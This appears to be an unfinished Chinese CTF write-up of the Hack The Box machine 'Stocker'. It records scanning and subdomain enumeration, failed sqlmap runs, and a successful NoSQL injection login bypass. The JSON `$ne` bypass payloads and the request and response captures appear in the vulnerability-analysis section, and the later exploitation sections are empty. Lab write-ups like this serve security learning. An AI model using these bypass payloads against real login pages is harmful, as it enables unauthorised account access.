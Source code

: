 **Waiting for machine retire...**

*Difficulty: Easy*

---

## 扫描

将自己侦查时常用的命令写了个脚本：[工作流](./HTB-Busqueda.md#workflow-scan)

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    nginx 1.18.0 (Ubuntu)

## 漏洞分析

### 80端口

- robots.txt：无
- 网页信息
    - staff：**Angoose Garden**, Head of IT at Stockers Ltd.
    - Made by templatedeck.com
- 网页功能：无发现
- 网页源码：无发现
- 子域枚举
    - > Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
- 目录枚举：由于发现子域，且是个登陆界面，所以似乎并不需要

#### 子域：dev.stocker.htb

将其加入hosts文件后访问，是个登陆界面。  
稍微试了下SQLi似乎不行。

- 网页源码
    - Hugo 0.84.0（搜了下似乎没漏洞）
    - bootstrap@5.0.2
    - name="username" placeholder="jsmith"
    - name="password" placeholder="Password"
- 目录枚举
    - /stock &nbsp; &nbsp; &nbsp; &nbsp; (Status: 302) [Size: 48] [--> /login?error=auth-required]

感觉突破口就在登陆界面了……又试了下placeholder那里写的账号密码，登陆失败。

注意到我们多次请求的cookie值是固定的，那尝试用sqlmap跑一下吧。  
```http
└─$ cat login-post.txt        
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AqGZ3cfqla8iZ8Z0kCgb0XFSH8yU28ZmZ.DHCZS1Pt2nPi34yO9KLryJeTtuIHKbjeBTVSVWxiCGs
Upgrade-Insecure-Requests: 1

username=admin&password=admin 
```

试了两种语法都没结果……
```bash
└─$ sqlmap -r login-post.txt -p username

└─$ sqlmap -u 'http://dev.stocker.htb/login' --cookie='s%3AqGZ3cfqla8iZ8Z0kCgb0XFSH8yU28ZmZ.DHCZS1Pt2nPi34yO9KLryJeTtuIHKbjeBTVSVWxiCGs' --data 'username=admin&password=admin' -p "username,password" --method POST
```
 
*后来了解到似乎sqlmap似乎不能测试NoSQLi？而对于NoSQLi另有个[NoSQLMap](https://github.com/codingo/NoSQLMap) 0.0*

*不懂了……看了眼官方论坛说[IppSec解说的Shoppy](https://www.youtube.com/watch?v=AJc53DUdt1M&t=220s)十分具有参考性 0.0*

看了眼wappalyzer插件，发现有Node.js。  
根据[IppSec解说的Shoppy](https://www.youtube.com/watch?v=AJc53DUdt1M&t=220s)，这里似乎是一样的情况，[NoSQLi](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

顺便记录几个知识点：
- `username[$ne]=toto&password[$ne]=toto` 这种在username用数组的，或者就单纯是字符串(scalar)的，一般是PHP、Apache
- 而npm服务器、Node.js就一般更改将报头 `Content-Type` 的 `application/x-www-form-urlencoded` 改为 `application/json`，然后用json格式的payload：`{"username": {"$ne": null}, "password": {"$ne": null} }`

#### NoSQLi绕过登陆

根据上述操作，看Burp的响应似乎是成功了：
```http
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 27 May 2023 14:44:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```

绕过登陆后会重定向到"/stock"，这个目录我们之前也枚举到过。  
而由于cookie值固定，我们现在应该算是已登录的状态了。  
用浏览器访问一下 `http://dev.stocker.htb/stock`，成功进入：  
![HTB-Stockers-login](../static/img/HTB-Stockers-login.png)



## Initial Access

### PoC (CVE-yyyy-xxxx)


## flag: user





## Privilege Escalation

### PoC (CVE-yyyy-xxxx)


## flag: root


---

## 总结·后记

YYYY/MM/DD
……